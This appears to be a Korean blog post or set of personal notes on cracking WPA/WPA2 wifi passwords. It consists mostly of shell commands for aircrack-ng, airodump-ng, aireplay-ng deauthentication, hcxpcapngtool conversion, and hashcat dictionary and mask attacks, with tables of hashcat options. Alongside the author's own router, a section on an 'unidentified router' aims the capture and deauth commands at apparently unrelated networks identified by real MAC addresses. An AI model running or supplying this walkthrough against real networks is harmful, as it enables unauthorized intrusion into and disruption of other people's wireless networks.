 ```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
---
```

```shell
iwconfig #랜카드 이름 확인
sudo airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
sudo airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
sudo airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
sudo airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
sudo airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
sudo airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
sudo airodump-ng wlan0 --band a -w [파일명] #파일로 저장
sudo airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
sudo aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
sudo aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```

DATA : 패킷량 으로 추정

PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임
SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

4,6,7,19,25

![[Pasted image 20250325152723.png]]

## 우리집
1. 공유기
	1. 64:E5:99:C4:FE:C4
2. 핸드폰
	2. 8E:E9:08:9C:9E:76
```shell
airodump-ng -c 9 --bssid 64:E5:99:C4:FE:C4 -w home wlan0
aireplay-ng --deauth 10 -a 64:E5:99:C4:FE:C4 -c 8E:E9:08:9C:9E:76 wlan0
aircrack-ng [캡처파일].cap -w [워드리스트]
```

1. 정체불명의 공유기
	1. 50:46:AE:5F:34:AD ?
	2. 38:F4:5E:24:EF:3A 157
	3. 50:46:AE:5F:34:AE 4
```shell
airodump-ng -c 157 --bssid 38:F4:5E:24:EF:3A -w otherhome wlan0
aireplay-ng --deauth 10 -a 38:F4:5E:24:EF:3A -c 8E:E9:08:9C:9E:76 wlan0

airodump-ng -c 4 --bssid 50:46:AE:5F:34:AE -w KT_GIGA_34AA wlan0
```

## hashcat으로 크랙
워드리스트 기반은 현실적이지 않은 것 같다.
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |
